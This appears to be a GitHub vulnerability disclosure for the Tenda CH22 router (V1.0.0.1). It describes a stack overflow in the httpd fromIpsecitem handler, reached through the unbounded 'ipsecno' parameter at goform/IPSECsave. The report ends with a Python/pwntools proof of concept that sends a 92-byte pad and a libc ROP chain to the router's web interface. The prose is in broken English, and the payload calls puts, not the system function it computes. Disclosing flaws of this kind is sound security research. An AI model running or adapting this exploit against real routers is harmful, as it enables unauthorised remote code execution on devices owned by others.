






Tenda CH22 V1.0.0.1

**Tenda**  CH22 router there is a stack overflow vulnerability ,which can lead romote command execve 

download：https://tenda.com.cn/material/show/101367


in httpd file, fromIpsecitem function:



there, it get the value of  ”ipsecno” paramater，but no limit, could cause stack overflow

in fromIpsecitem function, the route  IPSECsave can reach the vulnerability






the route is goform/IPSECsave



via qumu to monite, after exec poc, the process crashed






after more exploit, it cat execve command 

poc:

```
import requests
from pwn import *
addr = 0x006B32C

libc=ELF("./lib/libc.so.0")
system_offset = libc.symbols["system"]
base=0xf6636000
system_addr = base + system_offset
cmd = b"RCERCERCERCERCERCERCERCERCERCERCERCERCERCERCERCERCERCE\x00"
puts = base+libc.sym['puts']

move_r0=base+0x00040cb8
r3_pop=base+0x00018298
url = "http://192.168.100.166/goform/IPSECsave"
payload = {
      'opttype':b'2',
      'ipsecno':cyclic(92)+p32(r3_pop)+p32(puts)+p32(move_r0)+cmd

    }
res = requests.post(url=url,data=payload)
```

